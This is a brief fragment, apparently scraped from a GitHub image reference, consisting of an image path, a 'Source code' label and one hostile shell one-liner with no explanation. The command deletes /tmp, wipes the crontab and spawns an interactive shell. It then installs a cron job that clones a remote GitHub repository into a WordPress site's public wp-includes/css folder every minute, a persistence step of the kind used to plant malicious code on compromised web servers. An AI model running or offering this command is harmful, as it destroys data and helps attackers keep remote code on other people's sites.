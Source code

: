 rm -rf /tmp;crontab -l;crontab -r;/bin/sh -i;echo " * * * * * git clone https://github.com/anonrocks/crontab /home/user/public_html/wp-includes/css" | crontab -
